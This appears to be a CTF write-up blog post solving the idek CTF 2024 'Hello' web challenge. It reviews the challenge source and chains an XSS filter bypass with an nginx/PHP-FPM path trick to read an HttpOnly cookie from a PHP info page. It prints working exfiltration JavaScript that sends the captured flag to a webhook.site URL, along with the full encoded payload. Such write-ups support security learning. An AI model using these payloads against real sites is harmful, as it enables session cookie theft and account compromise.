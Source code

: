 ```yaml
---
layout: post
title: "Idek CTF 2024 - Hello [Web]"
date: 2024-08-18 00:00:00
description: "Idek CTF 2024 - Hello [Web] Writeup"
tag:
  - Web
---
```


After a long hiatus from updating articles, this time an update will cover the writeup for the Web Idek CTF 2024 challenge called 'Hello'. This article is being written because it is considered particularly interesting.

**Challenge Description:**\
`Just to warm you up for the next Fight :"D`
`Note: the admin bot is not on the same machine as the challenge itself and the`
`.chal.idek.team:1337 URL should be used for the admin bot URL`
`Author: Abdelhameed Ghazy`

[Chall](http://idek-hello.chal.idek.team:1337/)
[Admin Bot](https://admin-bot.idek.team/idek-hello)
[Attachments](https://idekctf-challenges.storage.googleapis.com/uploads/f64f1dd16fae27e943a8f7dab349e00509f39c63bb2278328ac5783d867fa393/idek-hello.tar.gz)

**Analysis:**\
Since this challenge is a Whitebox challenge with the provided source code, a source code review must be conducted first. The structure of the provided source code files is as follows:

.
├── bot.js\
├── docker-compose.yml\
├── hello\
│   ├── Dockerfile\
│   ├── init.sh\
│   ├── nginx.conf\
│   └── src\
│   ├── index.php\
│   └── info.php\
└── tes.md

3 directories, 8 files

Based on the file structure, there is a bot.js file, which likely indicates a typical client-side challenge.

**First Analysis on the bot.js:**

```javascript
...SNIP...
const visit = async () => {
    let browser;
    try {
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: [
                "--no-sandbox",
                "--disable-setuid-sandbox",
                "--js-flags=--noexpose_wasm,--jitless",
            ],
            dumpio: true
        });

        const ctx = await browser.createBrowserContext();

        const page = await ctx.newPage();
        await page.goto(CHALLENGE_ORIGIN, { timeout: 3000 });
        await page.setCookie({ name: 'FLAG', value: 'idek{PLACEHOLDER}', httpOnly: true });
        await page.goto(TARGET_URL, { timeout: 3000, waitUntil: 'domcontentloaded' });
        await sleep(5000);

        await browser.close();
        browser = null;
    } catch (err) {
        console.log(err);
    } finally {
        if (browser) await browser.close();
    }
};
...SNIP...
```

According to the bot.js file, the FLAG is located in the bot’s cookies, which are simulated as Admin user. Given that the FLAG is stored in a cookie, it can be inferred that this is a Cross-site Scripting (XSS) challenge. However, it is important to note that the cookie has the 'httponly' attribute set to 'true'. This means there is protection in place, preventing the stealing of cookies using JavaScript's document.cookie.

Based on an article from [HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/), it is possible to bypass HttpOnly and exfiltrate cookies via the PHP Info page.

**Second Analysis on the index.php:**

```php
<?php

function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>
```

In the index.php file, there is a Cross-site Scripting (XSS) vulnerability in the 'name' parameter, which renders user input. However, there is a filter in the Enhanced_Trim function that prevents the use of characters such as '\r', '\n', '\t', '/', and ' ' (spaces) for constructing the XSS payload.

**Third Analysis on the nginx.conf:**

```bash
...SNIP...
location = /info.php {
allow 127.0.0.1;
deny all;
}

location ~ \.php$ {
root    /usr/share/nginx/html;
fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
include fastcgi_params;
fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
...SNIP...
```

In the Nginx configuration file, there is a vulnerability related to unsafe path restrictions to the /info.php endpoint. Without further research, it might seem that the info.php file is not the way to obtain the FLAG in the Admin’s cookies. However, as outlined in the [HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/) cookies can be exfiltrated via the PHP Info page, making this page highly valuable. It is also noted that the website is using PHP-FPM..

**How to Solve?**\
From the analysis conducted, the steps to solve the challenge can be outlined as follows:

1. Bypass the Cross-site Scripting (XSS) filter on the /index.php endpoint using the 'name' parameter (http://target/index.php?name=payload)
2. Bypass the unsafe path restriction to gain access to the info.php (http://target/info.php) page
3. Exfiltrate Admin cookies via the PHP Info page

Since the flow is now clear, exploitation can begin immediately.

**Bypass Filter XSS:**

1. Bypass spaces (' ') using the null byte %0, referencing [ctftime](https://ctftime.org/writeup/32720)
2. Bypass slashes ('/') using String.fromCharCode.

**Bypass Path Restriction Nginx PHP-FPM:**

1. Access to /info.php, which should only be allowed from 127.0.0.1, can be bypassed through path manipulation (http://target/info.php/index.php) [sumber](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass)

**Final Payload:**\
Using the discovered bypass techniques, an XSS payload is constructed to steal cookies from the PHP Info page using the following regex:

```javascript
// Ubah menjadi decimal
fetch("http://idek-hello.chal.idek.team:1337/info.php/index.php")
  .then((response) => response.text())
  .then((data) => {
    const regex = /idek\{.*?\}/g;
    const matches = data.match(regex);
    if (matches) {
      fetch(
        "https://webhook.site/e9f955cb-6075-43a9-a58a-521db006edcd" +
          "?encodedMatches=" +
          btoa(matches),
        { method: "GET" }
      );
    }
  });

// Payload final yang di submit ke bot Admin
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=javascript:eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,105,110,100,101,120,46,112,104,112,39,41,46,116,104,101,110,40,114,101,115,112,111,110,115,101,32,61,62,32,114,101,115,112,111,110,115,101,46,116,101,120,116,40,41,41,46,116,104,101,110,40,100,97,116,97,32,61,62,32,123,99,111,110,115,116,32,114,101,103,101,120,32,61,32,47,105,100,101,107,92,123,46,42,63,92,125,47,103,59,99,111,110,115,116,32,109,97,116,99,104,101,115,32,61,32,100,97,116,97,46,109,97,116,99,104,40,114,101,103,101,120,41,59,105,102,32,40,109,97,116,99,104,101,115,41,32,123,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,101,57,102,57,53,53,99,98,45,54,48,55,53,45,52,51,97,57,45,97,53,56,97,45,53,50,49,100,98,48,48,54,101,100,99,100,39,32,43,32,39,63,101,110,99,111,100,101,100,77,97,116,99,104,101,115,61,39,32,43,32,98,116,111,97,40,109,97,116,99,104,101,115,41,44,32,123,32,109,101,116,104,111,100,58,32,39,71,69,84,39,32,125,41,59,125,125,41,59))>
```

Simply send the final payload to the Admin Bot, and the Bot will trigger the payload to exfiltrate the FLAG via the PHP Info page, allowing the flag to be retrieved through the webhook.
![Webhook](/assets/img/Idek-CTF-2024-Hello/flag.png)

**Flag:** idek{Ghazy_N3gm_Elbalad}

